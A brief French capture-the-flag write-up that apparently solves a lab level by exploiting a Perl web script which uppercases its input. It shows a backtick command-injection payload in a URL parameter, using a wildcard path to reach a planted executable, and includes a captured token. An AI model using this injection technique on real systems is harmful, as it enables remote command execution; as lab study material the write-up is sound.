 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

Nous avons commence par analyse le script perl, nous avons remarque qu'il pouvait
etre appelle par curl ou par le navigateur.

Nous avons remarque que au debut du script les argument passes en parametres sont 
traite notamment mit en majuscule.

Nous avons donc creer un fichier /tmp/SCRIPT qui contient:

`getflag > /tmp/flag`

Nous lui avons accorde les droits +x a l'aide de chmod pour qu'il puisse etre
execute.

Ensuite nous avons passe l'url suivant le navigateur:

http://<ip>:4646/?x=`/*/SCRIPT`

ou bien avec curl:

curl http://<ip>:4646/?x=\`/*/SCRIPT\`

pour que le script perl s'execute
